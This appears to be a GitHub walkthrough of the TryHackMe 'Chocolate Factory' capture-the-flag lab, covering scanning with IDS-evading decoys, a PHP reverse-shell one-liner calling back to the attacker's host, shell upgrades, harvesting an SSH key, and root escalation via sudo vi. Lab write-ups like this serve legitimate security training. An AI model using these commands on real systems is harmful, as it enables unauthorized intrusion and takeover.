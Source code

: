 
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:

![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:

![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)

I tried to switch users to charlie with this password but no luck. Now that I think about it, the login on the web server displayed the validate.php function, so this is displaying the code behind that. Let's see what else we can find...
The file key_rev_key contains a key that will can answer the questions with:

![key_rev_key](https://github.com/user-attachments/assets/0f2222a6-1299-4d3a-a160-2bb78f147715)

Next, let's go to charlie's home dir. We don't have the permissions to cat user.txt but teleport contains an rsa key, most likely for charlie.

![rsa](https://github.com/user-attachments/assets/eddd0419-6723-46b8-893d-20a7bcb1b9d7)

This rsa key gives us everything needed to ssh as charlie:

![ssh](https://github.com/user-attachments/assets/1fb4f963-d1de-4885-9e05-979ce0ff0a6b)

Let's cd to charlies home dir and get the user.txt.
sudo -l looks interesting:

![sudo -l](https://github.com/user-attachments/assets/a4a09f4f-0d89-403c-816d-59d2ab4e5c8d)

Let's check that out on gtfobins.github.io
It worked!

![vi](https://github.com/user-attachments/assets/b9a17f0b-cfa4-4033-8b92-6453573789cd)

Now, we are root but we still need to find the flag. Let's upgrade the shell with the previous python3 pty command, and head to the root dir. I tried running python3 root.py but it didn't work. Then I tried python root.py and we are now the proud owners of the Chocolate Factory! 

![win](https://github.com/user-attachments/assets/2c32f827-80fd-4b8f-870c-1b342d436308)

I hope you enjoyed this CTF writeup.  
